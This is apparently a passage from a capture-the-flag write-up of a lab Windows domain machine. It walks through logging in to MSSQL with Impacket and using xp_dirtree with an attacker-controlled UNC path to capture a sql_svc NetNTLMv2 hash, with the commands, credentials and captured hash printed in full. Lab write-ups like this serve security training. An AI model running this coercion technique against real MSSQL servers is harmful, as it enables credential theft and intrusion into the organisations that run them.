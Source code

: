 ### MSSQL

We can use `Impacket-mssqlclient`, which uses SQL server authentication [by default](https://github.com/fortra/impacket/blob/efc6a1c365d5e0317ebe6a432448c861616859a7/impacket/tds.py#L861), to login to the MSSQL server now.

```bash
$ impacket-mssqlclient PublicUser:GuestUserCantWrite1@escape
```

The instance we are connecting to is `DC\SQLMOCK`.

```sql
SQL> select @@servername;

----------
DC\SQLMOCK
```

## Initial Access

### UNC Path Injection

We can use the stored procedure `xp_dirtree` to force the MSSQL server to authenticate to a SMB share we control.

{% tabs %}
{% tab title="MSSQL Server" %}
We force the MSSQL server to authenticate with our SMB server.

```sql
SQL> EXEC xp_dirtree "\\<IP>\share"
subdirectory   depth
------------   -----
```
{% endtab %}

{% tab title="SMB Server" %}
We set up a SMB sesrver using Impacket and capture the NTLM authentication messages.

```bash
$ sudo impacket-smbserver -smb2support share .
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.140.112,59181)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:ccaa3775661de1f13e604b4852ca1bb4:0101000000000000006614269f9ed901a11548007705bd96000000000100100062007a00430042004d00650050006f000300100062007a00430042004d00650050006f00020010006c0065005800420064006e0055005a00040010006c0065005800420064006e0055005a0007000800006614269f9ed90106000400020000000800300030000000000000000000000000300000ba7e14ae44c472a55ae9f2e3595120b049681885ea1cda180cb1ef3a3eef4d650a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320032000000000000000000
[*] Closing down connection (10.129.140.112,59181)
[*] Remaining connections []
```
{% endtab %}
{% endtabs %}
